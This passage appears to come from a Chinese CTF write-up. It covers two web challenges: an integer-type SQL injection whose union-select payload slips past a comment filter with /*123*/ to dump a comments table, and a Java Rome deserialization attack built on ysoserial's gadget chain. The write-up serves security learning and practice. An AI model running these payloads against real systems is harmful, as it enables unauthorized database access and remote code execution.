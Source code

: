 ```php
?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121336010.png)

### 又一个SQL

提示查询 100, 一开始不知道什么意思, 试了好久才发现是个整数类型的注入...

过滤了 `/**/`, 用 `/*123*/` 绕过

```sql
-100/*123*/union/*123*/select/*123*/group_concat(text),2/*123*/from/*123*/wfy_comments
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121345473.png)

### Rome

下载 jar 文件后用 jd-gui 打开

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121352431.png)

springboot 的项目, helloCTF 方法为反序列化入口点

poc.xml 里面看到了 rome 的依赖

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121357711.png)

猜测是 rome 反序列化

参考文章 [https://www.anquanke.com/post/id/258575](https://www.anquanke.com/post/id/258575)

ysoserial 中的利用链

```
/**
 *
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
 *
 **/
```

写 payload 的时候把 HashMap 换成了 BadAttributeValueExpException, 前者要写反射比较麻烦
